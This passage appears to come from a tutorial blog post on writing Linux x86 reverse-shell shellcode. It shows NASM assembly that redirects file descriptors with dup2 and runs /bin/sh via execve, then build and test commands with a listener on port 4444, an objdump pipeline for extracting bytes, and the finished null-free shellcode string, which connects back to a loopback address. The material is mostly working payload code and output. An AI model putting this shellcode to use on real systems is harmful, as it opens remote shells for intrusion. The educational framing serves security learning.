 ```nasm
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f	 ; "hs//"
  push 0x6e69622f	 ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### testing

Now, as in the first part, let's assemble it and check if it properly works and does not contain any null bytes:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](/assets/images/14/2021-10-16_13-53.png){:class="img-responsive"}       

![compile shellcode 2](/assets/images/14/2021-10-16_13-57.png){:class="img-responsive"}       

Prepare listener on `4444` port and run:
```bash
./rev
```

![compile shellcode 2](/assets/images/14/2021-10-16_14-08.png){:class="img-responsive"}       

Perfect!

Then, extract byte code via some bash hacking and `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](/assets/images/14/2021-10-16_13-58.png){:class="img-responsive"}       

So, our shellcode is:            
```cpp
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```
